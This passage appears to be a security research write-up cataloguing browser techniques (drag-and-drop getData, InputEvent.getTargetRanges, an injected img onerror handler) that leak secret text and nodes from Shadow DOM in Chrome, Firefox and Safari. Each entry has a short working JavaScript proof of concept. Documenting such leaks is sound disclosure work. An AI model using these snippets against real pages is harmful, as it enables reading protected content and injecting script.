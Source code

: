 ### Affected browsers
Firefox

## DataTransfer.prototype.getData
```js
// for Chrome / Firefox
// Drag selected Shadow area. Leaks also occur in Safari if you manually select and drag the secret text
window.find('This is a secret:');
document.execCommand('selectAll');
window.ondragstart = function(event){
  alert(event.dataTransfer.getData('text'));
}
```
### Impact
text access, attribute value access

### Affected browsers
Chrome, Firefox, Safari

### Notes
* `getData('text/html')` can leak not only text but also attribute values.

## InputEvent.prototype.getTargetRanges
```js
// Type something into the contenteditable area inside Shadow area
window.onbeforeinput = (event) => {
  targetRanges = event.getTargetRanges();
  node = targetRanges[0].endContainer;// or startContainer
  root = node.getRootNode();
  if(root instanceof ShadowRoot){
    alert(root.querySelector('#secret').textContent);
  }  
}
```
### Impact
DOM node-level access

### Affected browsers
Chrome, Firefox, Safari


## Drag and drop HTML to contenteditable area
```js
img=document.createElement('img');
img.src='#';
img.style="font-size:50px";
img.alt="Drag & drop me to contenteditable area!";
img.setAttribute('onerror','root=getRootNode();if(root instanceof ShadowRoot){alert(root.querySelector("#secret").textContent);}');
document.body.appendChild(img);
```
